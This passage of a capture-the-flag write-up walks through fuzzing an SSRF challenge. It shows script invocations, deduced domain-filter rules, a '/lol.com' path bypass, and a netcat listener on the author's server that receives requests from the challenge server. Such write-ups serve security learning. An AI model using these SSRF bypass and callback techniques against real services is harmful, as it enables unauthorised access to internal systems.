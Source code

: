 I started fuzzing manually, you can invoke the above script like this, and it'll show you the response

```sh
jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212local.channelcs.com'
Reading id -> 7

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
--more--
```

After a bit of manual fuzzing, I deduced the following conclusions

- There should be atleast 2 periods in the `domain`
- The string before the first period should include the number '212'
- The last 4 characters should be '.com'
- There were some forbidden characters like '?' and '#'
- It does not care about any other characters in the middle, we could have anything characters in the domain(except some blacklisted ones).

So now to see how it behaves with different characters, I set up another subdomain, which pointed to my server, on which I started a netcat listener to view the requests manually.

![hagm](https://i.imgur.com/xU7TZWk.png)

At this point, I also thought about trying some other stuff like File uri and other protocols, but with the strict constrains, I wasn't able to work them out.

So the domain `212ror.channelcs.com` pointed to my remote server(`45.32.162.220`) with the same CNAME trick. On my server, I set up a netcat listener on port 80 to view the full verbose requests, and how the challenge server handles `domains` with differnt characters

```sh
root@op:~$ while true; do echo "HEHE"|nc -nlvp 80; done
Listening on [0.0.0.0] (family 0, port 80)
```

`root@op` is the remote server

Now I just tried messing around with domain value to see what I could do

```sh
--local--

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com'
Reading id -> 47
HEHE

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com'
Reading id -> 48
HEHE

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com/lol'
Error -> {u'domain': u'incorrect value, .com domain expected'}
Empty response
jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com/lol.com'
Reading id -> 49
HEHE

--local--

--remote--

root@op:~$ while true; do echo "HEHE"|nc -nlvp 80; done
Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.236.20.43] port 80 [tcp/*] accepted (family 2, sport 34852)
GET / HTTP/1.0
```